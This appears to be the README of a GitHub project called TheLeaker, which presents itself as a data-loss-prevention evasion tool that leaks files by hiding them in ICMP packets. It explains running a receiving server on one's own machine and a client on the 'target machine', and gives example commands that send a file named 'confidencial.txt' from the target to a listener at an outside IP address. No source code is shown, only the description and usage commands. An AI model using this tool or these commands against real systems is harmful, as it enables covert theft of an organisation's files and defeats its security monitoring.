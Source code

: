 # TheLeaker

# What is?
TheLeaker is a DLP evasion tool that leaks files via the icmp protocol.

# How is it done?
TheLeaker uses an optional icmp field to send files by splitting them into small packets.

# How to use?
TheLeaker has two binaries: "theleaker-client" and "theleaker-server".

- theleaker-server: must be run on the machine that will receive the leaked files
- theleaker-client: must be run on target machine

# Commands
theleaker-server [your ip]
theleaker-client -s [target] -f [filename] -R [router ip] -r [rename file]

# Example

## On your machine
theleaker-server 192.168.0.10

## On target machine
theleaker-client -s 170.93.185.100 -f confidencial.txt -R 192.168.0.10 -r confidencial.txt

* The "target" parameter must be your public IP;
* The "router ip" parameter must be informed for future compatibilities
* Your local ip must be in DMZ


